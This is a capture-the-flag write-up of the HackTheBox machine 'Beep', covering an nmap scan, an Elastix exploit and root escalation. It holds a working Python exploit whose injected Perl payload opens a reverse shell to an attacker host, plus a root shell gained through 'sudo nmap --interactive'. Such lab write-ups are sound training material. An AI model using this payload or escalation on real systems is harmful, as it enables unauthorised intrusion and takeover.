 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Beep
- Description: Beep has a very large list of running services, which can make it a bit challenging to find the correct entry method. This machine can be overwhelming for some as there are many potential attack vectors. Luckily, there are several methods available for gaining access.
- Difficulty: Easy

## Initial Access

Nmap:

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-title: Did not follow redirect to https://10.10.10.7/
|_http-server-header: Apache/2.2.3 (CentOS)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING USER UIDL RESP-CODES LOGIN-DELAY(0) APOP EXPIRE(NEVER) TOP AUTH-RESP-CODE
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            792/udp   status
|_  100024  1            795/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed X-NETSCAPE UIDPLUS ID IMAP4 UNSELECT THREAD=REFERENCES NO CHILDREN OK SORT URLAUTHA0001 IMAP4rev1 ANNOTATEMORE STARTTLS NAMESPACE LIST-SUBSCRIBED LISTEXT IDLE CONDSTORE MAILBOX-REFERRALS CATENATE RENAME THREAD=ORDEREDSUBJECT SORT=MODSEQ RIGHTS=kxte QUOTA MULTIAPPEND ACL LITERAL+ BINARY ATOMIC
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 80DCC71362B27C7D0E608B0890C05E9F
|_ssl-date: 2024-01-18T19:52:22+00:00; +5s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2017-04-07T08:22:08
| Not valid after:  2018-04-07T08:22:08
| MD5:   621a:82b6:cf7e:1afa:5284:1c91:60c8:fbc8
|_SHA-1: 800a:c6e7:065e:1198:0187:c452:0d9b:18ef:e557:a09f
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
795/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-favicon: Unknown favicon MD5: 74F7F6F633A027FA3EA36F05004C9341
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix
```

At this point I'll look through the easiest ports to enumerate first before getting overwhelmed with al these services.

### Port 80 - 443

Checking this port I can see elastix is running, doing a quick serachsploit yeilds with some vulnerabilities:


![[assets/images/2024-01-18-Beep-Writeup.md-image-1.png]]

![[assets/images/2024-01-18-Beep-Writeup.md-image-2.png]]

I found this python script:

```python
import urllib2
import ssl

rhost="10.10.10.7"
lhost="10.10.14.14"
lport=4444
extension="233"


ctx = ssl.SSLContext(ssl.PROTOCOL_TLSv1)
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib2.urlopen(url,context=ctx)
```

running it yields a reverse shell:

![[assets/images/2024-01-18-Beep-Writeup.md-image-3.png]]
## Privilege Escalation

For privilege escalation I can do the normal recon, I started with sudo privileges:

```bash
sudo -l
Matching Defaults entries for asterisk on this host:
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY"

User asterisk may run the following commands on this host:
    (root) NOPASSWD: /sbin/shutdown
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /bin/touch
    (root) NOPASSWD: /bin/chmod
    (root) NOPASSWD: /bin/chown
    (root) NOPASSWD: /sbin/service
    (root) NOPASSWD: /sbin/init
    (root) NOPASSWD: /usr/sbin/postmap
    (root) NOPASSWD: /usr/sbin/postfix
    (root) NOPASSWD: /usr/sbin/saslpasswd2
    (root) NOPASSWD: /usr/sbin/hardware_detector
    (root) NOPASSWD: /sbin/chkconfig
    (root) NOPASSWD: /usr/sbin/elastix-helper
```

I can run nmap as root, so I can privilege escalate simply:

```bash
bash-3.2$ sudo nmap --interactive
sudo nmap --interactive

Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# whoami
whoami
root
sh-3.2#
```


## Beyond Root

This box was quite simple, just outdated software, I highly recommend updating the software. Nmap being there doesn't change anything as it wouldn't be accessible if the software was up to date. 
